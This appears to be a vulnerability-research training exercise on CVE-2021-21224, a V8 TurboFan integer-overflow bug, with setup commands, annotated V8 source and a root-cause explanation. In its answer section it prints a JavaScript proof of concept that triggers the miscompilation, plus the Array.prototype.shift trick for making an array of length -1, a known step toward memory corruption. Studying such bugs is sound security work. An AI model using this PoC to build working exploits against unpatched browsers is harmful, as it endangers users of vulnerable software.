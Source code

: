 # Exercise 2

In LEVEL 1, we can relay on Details and just to search for the func which Details mentioned. It is far away from the real bug hunting scene.

LEVEL 2 we do the same as LEVEL 1 without the help of Details.

But the bug report need Poc to assist developer reproduce the vulnerability, and know exactly what cause this bug. So LEVEL 3 need we construct Poc by ourselves.

## CVE-2021-21224
I sugget you don't search any report about it to prevents get too much info like patch. Our goal is to find some bugs, not construct Poc. But in truth, Poc can proof that we are right.



### Details

In level 3, we do it without the help of Details


---------

<details>
  <summary>For more info click me! But you'd better not do this</summary>

  https://bugs.chromium.org/p/chromium/issues/detail?id=1195777

</details>

--------

### Set environment

Welcome to V8

if you have fetched v8, just
```sh
git reset --hard f87baad0f8b3f7fda43a01b9af3dd940dd09a9a3 
gclient sync
```
But if you not
```sh
# get depot_tools
git clone https://chromium.googlesource.com/chromium/tools/depot_tools.git
# add to env var
echo 'export PATH=$PATH:"/path/to/depot_tools"' >> ~/.bashrc
# get v8 source code
fetch v8
# chenge to right commit
cd v8
git reset --hard f87baad0f8b3f7fda43a01b9af3dd940dd09a9a3
# download others
gclient sync
```



### Related code

src/compiler/representation-change.cc

tips: Integer overflow

### Do it
Do this exercise by yourself, when you have some idea, you can compare your answer with me. If you find my answer have something wrong, please tell me.


---------

<details>
  <summary>My answer</summary>

  ```c++
// The {UseInfo} class is used to describe a use of an input of a node.
//
// This information is used in two different ways, based on the phase:
//
// 1. During propagation, the use info is used to inform the input node
//    about what part of the input is used (we call this truncation) and what
//    is the preferred representation. For conversions that will require
//    checks, we also keep track of whether a minus zero check is needed.
//
// 2. During lowering, the use info is used to properly convert the input
//    to the preferred representation. The preferred representation might be
//    insufficient to do the conversion (e.g. word32->float64 conv), so we also
//    need the signedness information to produce the correct value.
//    Additionally, use info may contain {CheckParameters} which contains
//    information for the deoptimizer such as a CallIC on which speculation
//    should be disallowed if the check fails.
  ```

  When do truncation we need check the `{CheckParameters}` like `use_info.type_check() == TypeCheckKind::kSignedSmall`, and if the check fails will trigger deoptimize.

  ```c++
enum class TypeCheckKind : uint8_t {
  kNone,
  kSignedSmall,
  kSigned32,
  kSigned64,
  kNumber,
  kNumberOrBoolean,
  kNumberOrOddball,
  kHeapObject,
  kBigInt,
  kArrayIndex
};
  ```

  The reasons for bug is missing a check of `use_info`
  ```c++
Node* RepresentationChanger::GetWord32RepresentationFor(
    Node* node, MachineRepresentation output_rep, Type output_type,
    Node* use_node, UseInfo use_info) {
  // Eagerly fold representation changes for constants.
  switch (node->opcode()) {
    case IrOpcode::kInt32Constant:
    case IrOpcode::kInt64Constant:
    case IrOpcode::kFloat32Constant:
    case IrOpcode::kFloat64Constant:
      UNREACHABLE();
    case IrOpcode::kNumberConstant: {
      double const fv = OpParameter<double>(node->op());
      if (use_info.type_check() == TypeCheckKind::kNone ||
          ((use_info.type_check() == TypeCheckKind::kSignedSmall ||
            use_info.type_check() == TypeCheckKind::kSigned32 ||
            use_info.type_check() == TypeCheckKind::kNumber ||
            use_info.type_check() == TypeCheckKind::kNumberOrOddball ||
            use_info.type_check() == TypeCheckKind::kArrayIndex) &&
           IsInt32Double(fv))) {
        return MakeTruncatedInt32Constant(fv);
      }
      break;
    }
    default:
      break;
  }

  // Select the correct X -> Word32 operator.
  const Operator* op = nullptr;
  if (output_type.Is(Type::None())) {
    // This is an impossible value; it should not be used at runtime.
    return jsgraph()->graph()->NewNode(
        jsgraph()->common()->DeadValue(MachineRepresentation::kWord32), node);
  [ ... ]
  } else if (output_rep == MachineRepresentation::kWord8 ||
             output_rep == MachineRepresentation::kWord16) {
    DCHECK_EQ(MachineRepresentation::kWord32, use_info.representation());
    DCHECK(use_info.type_check() == TypeCheckKind::kSignedSmall ||
           use_info.type_check() == TypeCheckKind::kSigned32);
    return node;
  } else if (output_rep == MachineRepresentation::kWord64) {
    if (output_type.Is(Type::Signed32()) ||
        output_type.Is(Type::Unsigned32())) {
      op = machine()->TruncateInt64ToInt32();     [1]
    } else if (output_type.Is(cache_->kSafeInteger) &&
               use_info.truncation().IsUsedAsWord32()) {
      op = machine()->TruncateInt64ToInt32();
  ```
  [1] Truncate Int64 To Int32 without check. This lead to Integer overflow.

  We should search for how can we insert one `TruncateInt64ToInt32` node. I have no idea about it but I guess `kWord64` var as `Signed32` and `Unsigned32` can convert from Int64 to Int32, and we can set 0xffffffff for y(Word32) and if convert to int32 can be -1.

  **Poc**
  ```js
function foo(a)
{
    let x = -1;
    if(a) x = 0xffffffff;
    return -1 < Math.max(x,0);
}

console.log(foo(true)) //prints true
for (let i = 0; i < 0x10000; ++i) foo(false)
console.log(foo(true)) //prints false
  ```
  When construct Poc of turbofan, we need analysis turbolizer or break at `../../src/compiler/representation-change.cc:853` to know whether we get kWord64 and convert to int32. I get this poc form [there](https://iamelli0t.github.io/2021/04/20/Chromium-Issue-1196683-1195777.html#rca-of-issue-1195777)

  `Array.prototype.shift()` is a trick which has been patched, we can make array length == -1 by shift
  ```js
let vuln_array = new Array(0 - Math.max(0, x));
vuln_array.shift();
  ```

</details>

--------
